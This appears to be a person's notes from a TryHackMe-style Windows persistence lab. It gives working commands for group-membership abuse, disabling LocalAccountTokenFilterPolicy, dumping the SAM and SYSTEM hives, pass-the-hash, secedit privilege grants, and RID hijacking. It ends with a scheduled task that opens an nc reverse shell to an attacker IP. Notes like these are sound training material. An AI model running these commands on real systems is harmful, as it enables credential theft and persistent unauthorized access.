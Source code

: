 #cybersecurity #penetration-test #windows 

To make it harder for the blue team to detect us, we can manipulate unprivileged users, wich usually won't be monitored as much as administrators

We assume we have already gained administrative access somehow and are trying to establish persistence from there

### Assign Group Memberships

We will assume we have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group.

```cmd
net localgroup administrators thmuser0 /add
```

If this looks too suspicious, you can use the Backup Operators group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured [[DACL]]. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

```
net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account , it cannot RDP or WinRM back to the machine unless we add it to **Remote Desktop Users** or **Remote Management Users**

```
net localgroup "Remote Management Users" thmuser1 /add
```

But if we try to connect with WinRM or RDP, we can see that we are not able to access all files as expected
Quick check

```bash
evil-winrm -i 10.10.238.37 -u thmuser1 -p Password321
```

This is due to UAC (User Account Control) and it's feature **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely

To disable, we have to modify a registry key

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Let's enter now in the server

```bash
evil-winrm -i 10.10.238.37 -u thmuser1 -p Password321
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
```
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

We those files we can dump the password hashes for all users using `secretsdump.py`

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

And finally perform PASS-THE-HASH to connect to the victim machine with privileges

```
user@AttackBox$ evil-winrm -i 10.10.238.37 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```




### Special Privileges and Security Descriptors
A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found here for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

- **SeBackupPrivilege**: The user can read any file in the system, ignoring any DACL in place.
- **SeRestorePrivilege**: The user can write any file in the system, ignoring any DACL in place.


We can assign such privileges to any user, independent of their group memberships. To do so, we can use the **secedit** command. First, we will export the current configuration to a temporary file:

```
secedit /export /cfg config.inf
```

We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:

![[ADprivileges.png]]

We finally convert the .inf file into a .sdb file which is then used to load the configuration back into the system:dir

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a security descriptor as an ACL but applied to other system facilities.

```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

This will open a window where you can add thmuser2 and assign it full privileges to connect to WinRM:

![[full-control.png]]


### RID Hijacking
We can change some registry values to make the operating system think we are Administrator

When user is create, an identifier called Relative ID (RID) is assigned to them. It's simply a numeric identifier representing the user across the system.

When an user logs on, the LSASS process gets its RID form the SAM registry hive and creates an access token associated with that RID, If we can tamper with the registry value, we can make windows assign an Administrator access token RID=500 

To find the assigned RID
```cmd
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

The RID is the last bit of the SID
SID it's and identifier that allows the operating system to identify a user across a domain

Now we assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it.
To run regedit as SYSTEM, we will user psexec

```poweshell
PsExec64.exe -i -s regedi
```

Now we go to `HKLM\SAM\SAM\Domains\Account\Users`
Here there is a key for each user in the machine
Since we want to modify thmuser3 we need to find a key with RID in hex 1010 = 0x3F2
There will be a value F wich holds the user's effective RID at position 0x30
![[RID.png]]


The RID is stored in little-endian notation, so its bytes appear reversed.

schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.9.4.183 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.